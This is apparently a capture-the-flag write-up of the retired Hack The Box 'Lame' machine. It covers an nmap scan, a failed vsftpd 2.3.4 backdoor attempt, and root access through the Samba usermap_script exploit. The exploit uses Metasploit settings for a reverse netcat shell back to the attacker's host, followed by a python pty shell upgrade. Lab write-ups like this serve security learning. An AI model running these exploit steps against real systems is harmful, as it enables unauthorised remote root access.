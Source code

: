 # Lame - Retired Machine
**About Lame**\
Lame is an easy Linux machine, requiring only one exploit to obtain root access. It was the first machine published on Hack The Box and was often the first machine for new users prior to its retirement.
## Step 1 - Nmap Scan
Just performed basic nmap scan:\
`nmap -sC -SV <Target-IP>`\
where:\
`-sC` - Scan with default NSE scripts. Considered useful for discovery and safe.\
`-sV` - Attempts to determine the version of the service running on port.

The Output it produced is in the file - [Nmap output file](HTB-Labs-Docs/Lame/Nmap.txt)
## Step 2 - Exploiting the FTP 
In Nmap scan, FTP was open and it was accessible via the `Anonymous` login, but it doesn't work.
After all i looked about the version of ftp which is used, `VsFTPd 2.3.4` and searched for vulnerability.\
Luckly there is a vulnerability in the respected version of the FTP known as **VSFTPD v2.3.4 Backdoor Command Execution** and there is open exploit in [rapid7](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/).\
So, executed metasploit exploit using the `exploit/unix/ftp/vsftpd_234_backdoor` payload, Unfortunatly it **FAILED**.
## Step 3 - Exploiting the SMB 
In Nmap scan, SMB was open and without wasting time reviewed the version of it `smbd 3.0.20-Debian` and searched for any vulnerability on the particular version of SMB.\
Yes, it is there **Samba "username map script" Command Execution**. 
> In old versions of Samba, there is a feature that maps fake usernames to real ones using a script.
But this mapping process is broken, if you give Samba a specially crafted username, it will run system commands instead of just mapping names.

Again in [rapid7](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/) found the metasploit exploit. Then, using the `exploit/multi/samba/usermap_script` exploit and with necessary settings;
```
set RHOSTS <Target-IP>
set PAYLOAD payload/cmd/unix/reverse_netcat
set LHOST <tun0-IP>
run
```
Successfully gained the shell. using `whoami` found that im as root.
## Step 4 - Collecting the Flags
As final steps, the shell is dumb and with the command `python -c 'import pty; pty.spawn("/bin/bash")'` the shell is TTY.\
HTB asks for user makis, root flags which can be easily found by searching the directories.\
Finally Pwned the machine.

![Lame Machine Pawned](https://github.com/Nithin-vs/HTB-Labs-Docs/blob/main/Lame/Acheived.png)

